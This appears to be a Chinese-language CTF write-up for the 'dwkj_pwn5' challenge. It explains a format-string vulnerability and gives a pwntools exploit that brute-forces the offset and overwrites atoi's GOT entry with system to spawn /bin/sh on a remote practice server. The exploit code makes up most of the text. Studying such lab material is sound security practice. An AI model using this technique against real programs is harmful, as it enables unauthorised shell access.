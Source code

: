 ```c++
  {
    puts("ok!!");
    system("/bin/sh");
  }
```
格式化字符串：  
使用爆破的方法测出格式化字符串参数的偏移。  
- 法一：   修改验证的字符串，使得输入的 nptr ==  unk_804C044  
- 法二：  修改 atoi() 为 system() 的地址，传入 “/bin/sh”。
 
想要泄露 unk_804C044 中的值理论上也可行，但是个人觉得比较勉强，毕竟不知道 0x804C044 在栈上的哪个位置。

### exp


```python
from pwn import *
context.log_level = "debug"

global offset

for i in range(2,20):
	r = process('./dwkj_pwn5')
	payload = "a%{0}$x".format(i)
	r.sendlineafter("name",payload)
	r.recvuntil("Hello,")
	data = r.recv(10)
	success(data)
	if '61' in data:
		offset = i
		break 
	r.close()


offset = 10
success("offset:" + str(offset))

# io = process('./dwkj_pwn5')
io = remote('node3.buuoj.cn','29220')

# # exp1
# check_addr = 0x804C044
# payload = fmtstr_payload(offset, {check_addr: 0x1})
# io.sendlineafter("name:",payload)
# io.sendlineafter("passwd:","1")

# exp2
e = ELF('./dwkj_pwn5')
atio_got = e.got['atoi']
system_plt = e.plt['system']
payload = fmtstr_payload(offset, {atio_got:system_plt})
io.sendlineafter("name:",payload)
io.sendlineafter("passwd:","/bin/sh\x00")

io.interactive()
```

